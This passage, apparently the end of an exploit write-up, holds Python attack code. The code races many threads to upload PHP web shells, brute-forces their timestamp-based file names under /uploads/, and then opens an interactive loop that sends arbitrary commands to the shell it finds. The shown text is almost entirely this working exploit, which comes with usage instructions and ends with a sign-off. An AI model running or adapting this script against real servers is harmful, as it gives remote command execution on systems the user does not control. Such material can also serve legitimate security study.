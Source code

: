 ```python
      url = f"{host}/uploads/{tValue}_x.php"
      r = requests.get(url)
      if r.status_code == 200:
        shellUrl = url
    except:
      pass
    finally:
      theLock.acquire()
      tValue += 1
      theLock.release()


def execCmd(url, cmd="id"):
  data = {"cmd" : cmd}
  r = requests.post(url, data=data)
  return r.text


def main():
  if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <host>")
    print(f"Example: {sys.argv[0]} https://evilhost.com")
    sys.exit(1)

  global tValue
  global shellUrl

  print("[*] Uploading files ...")
  # start uploading
  for i in range(100):
    t = threading.Thread(target=upload, args=(sys.argv[1],))
    t.start()

  tValue = int(time.time()*1000)
  finderThreads = []

  # start trying to find one of the shells
  print("[*] Searching for our shell ...")
  for i in range(30):
    t = threading.Thread(target=finder, args=(sys.argv[1],))
    t.start()
    finderThreads.append(t)

  while shellUrl is None:
    time.sleep(1)


  print(f"[+] Found shell @ {shellUrl}\n")
  print(execCmd(shellUrl))

  while 1:
    cmd = input("> ")
    print(execCmd(shellUrl, cmd))


if __name__ == '__main__':
  main()

```



Until next time ;)

